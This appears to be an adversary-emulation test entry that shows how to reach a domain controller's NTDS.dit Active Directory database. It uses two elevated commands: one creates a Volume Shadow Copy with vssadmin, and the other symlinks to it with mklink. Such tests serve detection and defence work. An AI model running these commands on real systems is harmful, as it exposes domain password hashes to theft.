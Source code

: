 This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by creating a symlink to Volume Shadow Copy.

**Supported Platforms:** Windows

**auto_generated_guid:** 21748c28-2793-4284-9e07-d6d028b66702

#### Inputs:

| Name         | Description                                  | Type   | Default Value            |
| ------------ | -------------------------------------------- | ------ | ------------------------ |
| drive_letter | Drive letter to source VSC (including colon) | string | C:                       |
| symlink_path | symlink path                                 | string | C:&#92;Temp&#92;vssstore |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
vssadmin.exe create shadow /for=#{drive_letter}
mklink /D #{symlink_path} \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

<br/>

